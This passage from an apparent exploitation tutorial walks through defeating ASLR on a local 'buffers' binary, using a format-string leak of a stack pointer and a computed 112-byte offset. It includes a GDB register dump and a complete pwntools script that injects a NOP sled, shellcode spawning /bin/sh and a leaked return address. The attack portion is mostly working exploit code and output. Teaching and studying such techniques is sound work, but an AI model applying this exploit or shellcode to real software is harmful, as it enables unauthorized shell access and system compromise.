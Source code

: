 ```
$rsi   : 0x00005555555596b1  →  "AAAAAAAAAAAAAAAAAAAAA\n.%p.%p.\n"
$rdi   : 0x00007ffff7fb0680  →  0x0000000000000000
$rip   : 0x00005555555552b5  →  <main+368> mov eax, 0x0
$r8    : 0x00007fffffffdf40  →  "AAAAAAAAAAAAAAAAAAAAAA\n"
$r9    : 0x0
$r10   : 0x0000555555556040  →  "Enter your input for the second buffer (stack over[...]"
$r11   : 0x246
$r12   : 0x0000555555555060  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
```

As one can see above, the fourth value printed out from the stack when exploiting the format string vulnerability is `0x7fffffffdfb0` in this instance of the process. The second buffer, which is currently in `rax`, starts at `0x00007fffffffdf40` in the same instance. This means that the fourth value printed out from the format string vulnerability is always going to have an offset of `0x7fffffffdfb0 - 0x00007fffffffdf40 = 112` bytes. In other words, subtracting 112 bytes from the fourth pointer on the stack will result in the address of the second buffer, which is where the shellcode will be injected.

Now that the offset is known, it is simple to write a program that exploits the buffer overflow using this calculated address. The only difference between this buffer overflow and a buffer overflow with ASLR turned off is that this buffer overflow does not use a hardcoded address. Instead, this exploit will calculate the address of the shellcode on the spot using the information that was leaked earlier.

```python
#!/usr/bin/env python3
from pwn import *

# Open up the process
p = process("./buffers", stdin=PTY)
p.recv() # Ignore the first part

# Leak the fourth pointer from the stack
p.sendline("%4%p") # This will directly print out the fourth pointer

# Calculate the address of the buffer that will contain the shellcode
# It should be 112 bytes away from the leaked address
addr =  p64(int(p.recvline().strip(), 16) - 112)

# Generate the shellcode
shellcode = b"\x48\x81\xec\x2c\x01\x00\x00\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"
nops = b'\x90' * (232 - len(shellcode))
payload = nops + shellcode + addr

# Trigger the buffer overflow
p.sendline(payload)
p.interactive()
```

This exploit should work even when ASLR is turned on.

{% include related_posts.html %}
